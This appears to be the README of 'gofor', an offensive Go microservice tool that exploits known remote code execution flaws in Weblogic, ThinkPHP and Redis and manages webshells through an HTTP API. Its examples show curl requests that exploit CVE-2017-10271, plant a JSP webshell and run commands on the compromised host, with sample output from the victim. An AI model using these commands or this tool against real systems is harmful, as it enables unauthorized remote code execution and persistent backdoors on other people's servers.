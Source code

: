 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

## HTTP API Gateway
```shell
./api-srv
```

## Service Install(Optional)
**Exploit**
```
./srv-exploit
```
**Webshell**
```webshell
./srv-webshell
```

# Example
[*] CVE-2017-10271 Weblogic RCE 攻击例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://x.x.x.x:7001","cve":"CVE-2017-10271"}' http://127.0.0.1:8888/exploit/ExploitServiceExt/ExploitWithAttack
```
`{"cve":"CVE-2017-10271","tunnel":"192.168.27.129:38533/wls-wsat/ant.jsp"}`

[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://192.168.27.129:38533/wls-wsat/ant.jsp","language":"jsp","cmd":"pwd"}' http://127.0.0.1:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
`{"output":"/root/Oracle/Middleware/user_projects/domains/base_domain"}`


# 当前支持漏洞列表
| id | 漏洞名 |
|--|--|
| VUL-2021-04271  | Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability |
| VUL-2021-04272  | ThinkPHP5 5.0.23 Remote Code Execution Vulnerability |
| CVE-2017-10271  | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 |
| VUL-2021-05081  | Redis Unauthorized Vulnerability 漏洞 |
